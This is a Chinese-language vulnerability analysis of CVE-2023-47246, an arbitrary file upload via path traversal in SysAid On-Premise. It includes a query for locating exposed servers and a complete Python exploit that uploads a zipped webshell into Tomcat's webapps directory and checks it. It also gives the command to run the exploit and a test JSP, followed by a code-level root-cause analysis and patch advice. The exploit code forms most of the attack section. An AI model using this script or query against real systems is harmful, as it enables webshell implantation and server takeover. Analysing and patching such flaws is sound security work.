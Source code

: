 

# CVE-2023-47246 SysAid Server 文件上传漏洞分析 - 先知社区

CVE-2023-47246 SysAid Server 文件上传漏洞分析



# 0x00 概述

SysAid On-Premise 是一种 IT 服务管理（ITSM）和 IT 资产管理（ITAM）解决方案，专为企业提供全面的、集成的 IT 管理服务。经过分析发现，该软件存在任意文件上传漏洞，攻击者可以通过上传 webshell 获取目标系统权限。

| 字段  | 值   | 备注  |
| --- | --- | --- |
| 漏洞编号 | CVE-2023-47246 |     |
| 漏洞厂商 | SysAid |     |
| 厂商官网 | [https://www.sysaid.com/](https://www.sysaid.com/) |     |
| 影响对象类型 | Web 应用 |     |
| 影响产品 | SysAid On-Premise |     |
| 影响版本 | version < 23.3.36 |     |
|     |     |

# 0x01 漏洞影响

漏洞影响版本：version < 23.3.36

# 0x02 漏洞环境

*   fofa query

```bash
body="sysaid-logo-dark-green.png"
```

[![](assets/1701606560-61a7149cb282577ffeccb266cd8ad8af.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122103950-68d5f450-88e0-1.png)

# 0x03 漏洞验证和利用

exp ：

```bash
import argparse
import binascii
import random
import time
import zipfile
import zlib
import urllib3
import requests

urllib3.disable_warnings()

def compressFile(shellFile, warFile):
    try:
        with zipfile.ZipFile(warFile, 'w', zipfile.ZIP_DEFLATED) as zipf:
            zipf.write(shellFile)
        zipf.close()
        return True
    except:
        return False


def getHexData(warFile):
    with open(warFile, 'rb') as warfile:
        data = warfile.read()
    warfile.close()
    compressed_data = zlib.compress(data)
    hex_data = binascii.hexlify(compressed_data).decode()
    return hex_data


def generateRandomDirectoryName(num):
    charset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
    return ''.join(random.choice(charset) for _ in range(num))


def get_random_agent():
    agent_list = [
        'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36',
        'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.89 Safari/537.36'
    ]
    return agent_list[random.randint(0, len(agent_list) - 1)]


def shellUpload(url, proxy, directoryName, shellFile):
    userEntryUrl = f"{url}/userentry?accountId=/../../../tomcat/webapps/{directoryName}/&symbolName=test&base64UserName=YWRtaW4="
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "User-Agent": get_random_agent()
    }
    shellFileName = shellFile.split(".")[0]
    warFile = f"{shellFileName}.war"
    if compressFile(shellFile, warFile):
        shellHex = getHexData(warFile=warFile)
        data = binascii.unhexlify(shellHex)
        from myframework.encoder import base64_encode
        print(base64_encode(data=data))
        resp = requests.post(url=userEntryUrl, headers=headers, data=data, proxies=proxy, verify=False)
        print("\033[92m[+] Shell file compressed successfully!\033[0m")
        return resp
    else:
        print("\033[91m[x] Shell file compression failed.\033[0m")
        exit(0)


def shellTest(url, proxy, directoryName, shellFile):
    userEntryUrl = f"{url}/{directoryName}/{shellFile}"
    headers = {
        "User-Agent": get_random_agent()
    }
    resp = requests.get(url=userEntryUrl, headers=headers, timeout=15, proxies=proxy, verify=False)
    return resp, userEntryUrl

def exploit(url, proxy, shellFile):
    print(f"\033[94m[*] start to attack: {url}\033[0m")
    directoryName = generateRandomDirectoryName(5)
    userentryResp = shellUpload(url, proxy, directoryName, shellFile)
    print(f"\033[94m[*] Wait 9 seconds...\033[0m")
    time.sleep(9)
    cveTestResp, userEntryUrl = shellTest(url, proxy, directoryName, shellFile)
    if userentryResp.status_code == 200 and cveTestResp.status_code == 200:
        print(f"\033[92m[+] The website [{url}] has vulnerability CVE-2023-47246! Shell path: {userEntryUrl}\033[0m")
    else:
        print(f"\033[91m[x] The website [{url}] has no vulnerability CVE-2023-47246.\033[0m")


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="SysAid Server remote code execution vulnerability CVE-2023-47246 Written By W01fh4cker",
        add_help="eg: python CVE-2023-47246-RCE.py -u https://192.168.149.150:8443")
    parser.add_argument("-u", "--url", help="target URL")
    parser.add_argument("-p", "--proxy", help="proxy, eg: http://127.0.0.1:7890")
    parser.add_argument("-f", "--file", help="shell file, eg: shell.jsp")
    args = parser.parse_args()
    if args.url.endswith("/"):
        url = args.url[:-1]
    else:
        url = args.url
    if args.proxy:
        proxy = {
            'http': args.proxy,
            'https': args.proxy
        }
    else:
        proxy = {}
    exploit(url, proxy, args.file)
```

运行 exp：

```bash
python CVE-2023-47246-EXP.py -u http://host:8080 -p http://127.0.0.1:8088 -f 2.jsp
```

这里上传 2.jsp：

```bash
hello<%=8*8%>
```

[![](assets/1701606560-465d571ccd6bd145a8f4c66e48adebc8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122144540-c051a8e2-8902-1.png)

成功上传，访问所上传的 webshell：

```bash
http://domain/6YY7Y/2.jsp
```

[![](assets/1701606560-ab92657f0eb790dc1b875f2d50a74794.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122104218-c10a8424-88e0-1.png)

# 0x04 漏洞分析

查看日志，确定文件上传的路由对应的 Controller 是 `com.ilient.server.UserEntry` 这个类：

[![](assets/1701606560-a9036bd474affed9d6a3c6d142ec7a9a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122104319-e564580e-88e0-1.png)

阅读 `com.ilient.server.UserEntry` 这个类的 `doPost()` 的代码，分析请求的处理逻辑

首先读取 post data 的内容：

[![](assets/1701606560-a5919587a4651cf0fe1ffda07d009dc5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122104407-01db67c0-88e1-1.png)

然后根据 `accountId` 这个参数中的内容，构建一个 `File` 对象，该对象的路径名没有做任何限制，可以目录穿越：

[![](assets/1701606560-806e440c34f92d4f82e80bcc6ec84ffa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122104422-0aead56c-88e1-1.png)

[![](assets/1701606560-e3fa675a8371e637e9609586bc47112c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122104430-0fb796e8-88e1-1.png)

随后写一个 zip 文件，文件内容是 post data 的内容：

[![](assets/1701606560-e8d700bce54900f129c57a30529b5c62.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122104439-14c2bff0-88e1-1.png)

紧接着调用 `a(var31, var11)` ，在这个方法当中，实现了对刚刚写入的 zip 文件的解压：

[![](assets/1701606560-0c6fa64987fb6c09320eca018e269814.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122104446-18e86882-88e1-1.png)

[![](assets/1701606560-875e06272d7398b6ec05c93055948ad7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122104453-1cfabe70-88e1-1.png)

如此一来，通过访问 `/userentry` 便能上传任意 zip 格式的文件，到任意指定位置，该 zip 文件上传之后会在所指定的位置进行解压，从而实现任意文件写

# 0x05 漏洞修复

官方已修复该漏洞，请升级到最新版本（23.3.36），下载地址为：[https://documentation.sysaid.com/docs/latest-version-installation-files](https://documentation.sysaid.com/docs/latest-version-installation-files)

# 0x06 链接

[https://www.sysaid.com/blog/service-desk/on-premise-software-security-vulnerability-notification](https://www.sysaid.com/blog/service-desk/on-premise-software-security-vulnerability-notification)

